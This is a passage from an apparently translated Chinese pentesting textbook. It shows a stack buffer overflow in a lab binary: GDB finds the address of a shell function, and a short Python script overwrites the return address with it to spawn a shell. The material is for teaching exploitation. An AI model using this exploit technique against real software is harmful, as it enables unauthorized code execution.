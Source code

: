 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00244.jpeg)

是的，它在抱怨我们的 6 个`b`字符，`0x0000626262626262`，所以现在我们走上了正确的道路。现在，让我们找到我们 shellcode 的地址：

```
$ disassemble shell_pwn
```

上述命令的输出可以在以下屏幕截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00245.jpeg)

第一条指令的地址是`0x000000000040060d`。此外，我们可以使用`print`函数：

```
$ print shell_pwn
```

上述命令的输出可以在以下屏幕截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00246.jpeg)

完美！现在，让我们构建我们的最终利用：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```

然后，在 GDB 内部，运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`函数处暂停；按*C*继续：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00247.jpeg)

现在我们有了一个 shell；让我们尝试使用`$ cat /etc/issue`来执行它：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00248.jpeg)

让我们确认一下，使用我们的 bash shell 而不是 GDB：

```
$ ./exec $(cat input.txt)
```
